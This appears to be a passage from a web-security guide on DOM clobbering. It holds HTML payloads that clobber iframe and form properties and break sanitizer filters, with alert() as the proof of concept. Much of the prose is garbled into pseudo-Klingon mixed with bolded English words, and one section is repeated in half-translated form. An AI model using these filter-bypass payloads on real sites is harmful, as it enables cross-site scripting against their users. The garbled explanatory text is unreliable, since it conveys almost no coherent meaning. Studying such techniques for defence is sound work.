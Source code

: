 **QaSpu'DI' vItlhutlh. 'ach vItlhutlhbe'chugh, iframes vIlo'laHbe'.**
```html
<iframe name=x srcdoc="<a id=y href=controlled></a>"></iframe>
<style>@import 'https://google.com';</style>
<script>alert(x.y)//controlled</script>
```
{% hint style="warning" %}
**Qa'vIn** 'e' vItlhutlh **iframe** 'e' **render** **ghItlh** **tag style**. **'ach** **undefined** **alert** **tlhIngan** **ghItlh**.
{% endhint %}

**iframes with html encoding** **ghItlh** **clobber** **attributes** **De'** **vItlhutlh** **'ej** **vaj** **'e'** **vay'** **ghItlh** **html encoding** **ghItlh** **use**.
```html
<iframe name=a srcdoc="<iframe srcdoc='<iframe name=c srcdoc=<a/id=d&amp;amp;#x20;name=e&amp;amp;#x20;href=\controlled&amp;amp;gt;<a&amp;amp;#x20;id=d&amp;amp;gt; name=d>' name=b>"></iframe>
<style>@import 'https://google.com';</style>
<script>
alert(a.b.c.d.e)//controlled
</script>
```
### **Filter Bypassing**

If a filter is **looping** through the **properties** of a node using something like `document.getElementByID('x').attributes` you could **clobber** the attribute **`.attributes`** and **break the filter**. Other DOM properties like **`tagName`** , **`nodeName`** or **`parentNode`** and more are also **clobberable**.

### **Filter Bypassing**

vaj vItlhutlh **looping** through the **properties** of a node using something like `document.getElementByID('x').attributes` you could **clobber** the attribute **`.attributes`** and **break the filter**. Other DOM properties like **`tagName`** , **`nodeName`** or **`parentNode`** and more are also **clobberable**.
```html
<form id=x></form>
<form id=y>
<input name=nodeName>
</form>
<script>
console.log(document.getElementById('x').nodeName)//FORM
console.log(document.getElementById('y').nodeName)//[object HTMLInputElement]
</script>
```
## **Clobbering `window.someObject`**

In JavaScript it's common to find:

```javascript
window.someObject = someValue;
```

This code assigns a value to the `someObject` property of the `window` object. However, if the `someObject` property already exists, this code will overwrite its value.
